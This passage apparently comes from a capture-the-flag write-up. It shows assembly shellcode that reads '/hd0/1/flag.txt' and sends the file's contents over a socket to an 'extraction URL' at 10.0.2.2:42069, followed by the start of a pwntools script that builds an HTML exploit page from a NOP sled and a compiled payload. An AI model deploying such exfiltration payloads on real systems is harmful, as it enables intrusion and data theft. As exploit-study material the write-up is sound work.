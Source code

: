 ```assembly
        mov     [send_data], ax
        xor     esi, esi
        inc     esi
        test    al, al
        jz      done
        inc     esi
        mcall   send, [socketnum], send_data		; send data to remote URL

        invoke  con_get_flags
        jmp      .loop
...
socketnum       dd ?								
buffer_ptr      rb BUFFERSIZE+1						
file_error      db 'Error with file', 0xa, 0, 0		
file_done       db 'File loaded', 0xa, 0, 0			
param           db '/hd0/1/flag.txt', 0				; file to extract
send_data       dw ?
counter         dd 0
identifier              dd 0
clipboard_data          dd 0						; file data ptr
clipboard_data_length   dd 0
send_ptr                dd ?

hostname        db '10.0.2.2:42069', 0			; extraction URL 

file_struct:
        dd 0            ; read file
        dd 0            ; offset
        dd 0            ; reserved
        dd 32768        ; max file size
  .buf  dd 0            ; buffer ptr
        db 0
        dd param

mem:
```



Now we finalize our generator script and get:

```python
#!/bin/python
from pwn import *

HEADER = b'<html><body>'
MAX_LENGTH=0x100000

def nop(size):
  return b'\x90' * size

def tagger(tag):
  return b'<' + tag + b'/>'

# create exploit


# setup payload
 
# read payload from compiled binary
PAYLOAD_FILE='./programs/payload'
ENTRY = 0x1a1

with open(PAYLOAD_FILE, 'rb') as test:
 payload = test.read()
```
